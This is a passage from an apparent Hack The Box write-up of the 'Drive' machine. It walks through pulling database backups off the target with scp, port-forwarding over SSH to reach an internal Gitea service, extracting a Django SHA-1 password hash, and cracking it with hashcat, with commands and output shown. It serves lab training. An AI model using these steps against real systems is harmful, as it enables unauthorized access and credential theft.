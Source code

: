 - The presence of these backup files could potentially contain sensitive information if the database was used to store such data.

- Let’s download these interesting files to our machine and take a close look at them.

```
root㉿kali)-[~/ctf/hack-the-box/drive]
└─# scp martin@10.10.11.235:/var/www/backups/* /root/ctf/hack-the-box/drive 
martin@10.10.11.235's password: 
1_Dec_db_backup.sqlite3.7z                                                                          100%   13KB  42.8KB/s   00:00    
1_Nov_db_backup.sqlite3.7z                                                                          100%   12KB  39.1KB/s   00:00    
1_Oct_db_backup.sqlite3.7z                                                                          100%   12KB  41.6KB/s   00:00    
1_Sep_db_backup.sqlite3.7z                                                                          100%   12KB  41.3KB/s   00:00    
db.sqlite3                                                                                          100% 3672KB 610.9KB/s   00:06    
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# ls
1_Dec_db_backup.sqlite3.7z  1_Nov_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z  db.sqlite3
```

- The files have been successfully downloaded to our machine, but first let’s also try to access the Gitea 
service running on port 3000 of drive, and we can achieve that by port forwarding to our localhost and the 
visiting the page on our web browser. Let’s accomplish that task first.

```
ssh -L 3000:127.0.0.1:3000 martin@drive.htb                            
martin@drive.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)
```

- Now we have access to the Gitea server running on the remote host through our SSH port forwarding.
I tried login as the user `martin`, but I get an error. So let’s go back to the “db.sqlite3” file we found on the host 
to see if we find more information there.

- After opening the “db.sqlite3” with `DB Broswer` for SQLite we can see the database currently contains 
users information, email, password hash. Let’s move the password hash to a test file and try to crack them.

- But first since we have `martins`'s password already let’s paste that into our wordlist and then try to 
crack martins hash and see if we can crack it before proceeding to others.
We can see the hashes are Django (SHA-1) and the module in `hashcat` for that is 124.

```
─(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# subl marincruz.txt                                               
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# cat marincruz.txt 
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f                                                                                                                                     
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# hashcat -m 124 marincruz.txt /root/deauth.txt --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
```